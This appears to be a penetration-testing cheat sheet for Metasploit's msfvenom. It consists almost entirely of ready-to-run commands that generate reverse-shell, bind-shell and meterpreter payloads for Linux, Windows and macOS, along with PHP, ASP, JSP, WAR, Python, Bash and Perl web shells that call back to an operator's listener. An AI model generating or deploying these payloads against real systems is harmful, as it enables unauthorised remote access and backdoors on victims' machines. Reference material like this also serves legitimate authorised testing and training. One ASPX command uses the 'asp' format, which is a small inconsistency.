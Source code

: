 ```yaml
---
sidebar_position: 11
---
```


# msfvenom

msfvenom is a payload generator and encoder for Metasploit. It allows you to create shellcode and backdoors for various platforms and formats.

## Listing Payloads and Formats

- **List all payloads:**
  ```bash
  msfvenom -l payload
  ```
- **List all output formats:**
  ```bash
  msfvenom -l formats
  ```

## Generating Shellcode & Payloads

### Linux

- **32-bit:**
  ```bash
  msfvenom -p linux/x86/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
  ```
- **64-bit:**
  ```bash
  msfvenom -p linux/x64/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
  msfvenom -p generic/shell_bind_tcp RHOST=$rhost LPORT=$lport -f elf > term.elf
  ```

### Windows

- **32-bit:**
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/powershell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  ```
- **64-bit:**
  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/x64/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
  ```

### MacOS

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f macho > shell.macho
msfvenom -p osx/x86/shell_bind_tcp RHOST=$rhost LPORT=$lport -f macho > bind.macho
```

### Web Payloads

- **PHP:**
  ```bash
  msfvenom -p php/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f raw > shell.php
  msfvenom -p php/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f raw > shell.php
  ```
- **ASP:**
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f asp > shell.asp
  ```
- **ASPX:**
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f asp > shell.aspx
  ```
- **JSP:**
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f raw > shell.jsp
  ```
- **WAR:**
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war > shell.war
  ```
- **Python:**
  ```bash
  msfvenom -p python/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f raw > shell.py
  msfvenom -p python/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f raw > shell.py
  msfvenom -p cmd/unix/reverse_python LHOST=$lhost LPORT=$lport -f raw > shell.py
  ```
- **Bash:**
  ```bash
  msfvenom -p cmd/unix/reverse_bash LHOST=$lhost LPORT=$lport -f raw > shell.sh
  ```
- **Perl:**
  ```bash
  msfvenom -p cmd/unix/reverse_perl LHOST=$lhost LPORT=$lport -f raw > shell.pl
  ```
